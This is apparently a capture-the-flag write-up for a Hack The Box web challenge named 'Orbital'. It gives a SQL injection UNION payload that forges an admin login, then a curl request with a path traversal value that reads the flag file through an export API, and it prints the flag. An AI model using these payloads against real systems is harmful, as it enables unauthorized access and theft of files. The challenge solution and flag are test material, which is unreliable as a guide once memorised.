

# Orbital

In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

## Writeup

There is a SQL Injection on **/login** page (with a **POST** method). 

So we can use this query in the username field and insert **2** in the password filed to login as **admin**.

This because we can use the SQL Injection to temporarily change the password of admin account, just only to complete the login phase.

**NB:** `c81e728d9d4c2f636f067f89cc14862c` is the **md5sum** of **2**, we must use it because the password in the database are memorized in hash format.

So, login with this credentials:

```
Username: ciao" union select 'admin' as username, 'c81e728d9d4c2f636f067f89cc14862c' as password --

Password: 2
```

Now, we can use the **/export** api to get a file.

For default is communication.mp3 but we can modify the **name** custom header to a **path traversal** of the flag.

The flag in the docker container is copyed as **signal_sleuth_firmware**.

We can see it in the following command of the **DockerFile**:

```dockerfile
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

Now copy the **session** cookie from the **home** page:




And use it to do this request to get the flag (with a **path traversal**):

```bash
curl 'http://209.97.134.50:30040/api/export' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOekEwTkRjMmZRLkU0OHIxRHFCTlplS1BfZjhHaTJCaUZFQXRQbWtJTm1Vc3k3Yl9SSU5FQTQifQ.ZB3tPA.9_YY297R8T24o1KudVtjPAc9dek' \
  -H 'Origin: http://209.97.134.50:30040' \
  -H 'Referer: http://209.97.134.50:30040/home' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  --data-raw '{"name":"../../../../../../signal_sleuth_firmware"}' \
  --compressed \
  --insecure
```

This is the flag:

```
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```